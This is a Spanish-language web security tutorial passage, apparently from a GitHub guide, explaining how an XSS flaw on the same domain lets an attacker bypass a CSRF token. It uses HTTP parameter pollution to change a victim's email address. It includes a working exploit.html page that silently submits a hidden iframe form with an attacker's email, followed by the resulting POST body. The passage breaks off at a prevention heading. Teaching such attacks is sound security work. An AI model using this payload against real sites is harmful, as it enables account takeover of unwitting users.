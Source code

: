 Este formulario no suele ser vulnerable a los ataques CSRF debido al impredecible $csrf_token,  pero si logramos encontrar una vulnerabilidad XSS en el mismo dominio, podemos eludir esta protección. Este es el plan:

1. Cree un iframe oculto que apunte a http://target.com/change_email.php

2. Cree un nuevo parámetro oculto (con JavaScript) y añádalo al formulario para que, utilizando el principio de HPP  , podamos engañar al servidor web y enviar el correo electrónico del atacante.

3. Enviar el iframe oculto

Vamos a crear nuestra página de explotación ficticia:

```html
<!-- exploit.html -->
<html>
<head>
<script type="text/javascript">
function submit_iframeform()
{
    var newParam = document.createElement("input");
    var myForm = iframe_form.document.forms[0]; //might be some other form on the same page
 
    newParam.type = "hidden";
    newParam.name = "new_email";
    newParam.value = "attacker@evil.com";
 
    myForm.appendChild(newParam);
    myForm.submit();
}
</script>
</head>
<body onload="submit_iframeform();">
<iframe name="iframe_form" src="https://target.com/change_email.php">< /iframe>
</body>
</html>
```

¿Se pregunta cómo se ven los datos POST de la solicitud HTTP después de enviar el formulario desde  exploit.html?

```bash
cur_email=current%40provider.com&new_email=&token={RANDOM_TOKEN}&new_email=atacante%40evil.com
```

Aquí estamos utilizando  el principio de HPP, de hecho, estamos agregando un parámetro (new_email) que ya está presente en el contenido POST. Ahora estarás pensando, ¿cómo reacciona el servidor web si le enviamos dos parámetros con el mismo nombre? **Si el servidor web de destino es Apache, se tiene en cuenta la última aparición de  new_email. ¡Ataque exitoso!**

¿Estás pensando “¿Por qué necesitamos XSS para que este ataque funcione? ” eso se debe a la  política del mismo origen (SOP). No podemos acceder a la propiedad 'document' de iframe_form si no estamos ejecutando  exploit.html  desde el mismo dominio donde  está change_email.php  .

## PREVENCION
